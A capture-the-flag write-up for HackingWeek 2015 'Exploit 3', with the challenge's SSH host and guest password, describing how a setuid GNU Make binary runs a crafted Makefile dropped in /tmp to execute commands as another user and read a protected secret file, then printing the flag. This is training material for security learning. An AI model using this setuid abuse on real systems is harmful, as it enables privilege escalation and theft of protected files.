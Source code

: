 # HackingWeek CTF 2015: Exploit 3

**Category:** exploit |
**Points:** 3526 |
**Solves:** 46 | 
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit03/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up

This task is an exploit task.  
We are given a shell on a remote server.  
The source code is also given. It is make version 3.81-alpha.  
This version is vulnerable to a vulnerability.  
The "intended" way to solve this task will not be described here, because
there was an other vulnerability everyone took advantage of.  
If you are looking for the "correct" way of solving this, check exploit 05.  

There was a suid binary of GNU Make 3.81, that you could use to compile every
Makefile.  
It was therefore possible to run any command from user exploit03 with a  
crafted Makefile dropped in /tmp/:

```Makefile
all:
        @whoami
        @cat /home/exploit03/.secret
```
`/home/exploit03/project/make -f exploit-03`

> exploit03  
> uY2Waed3ie	

**Flag**: uY2Waed3ie
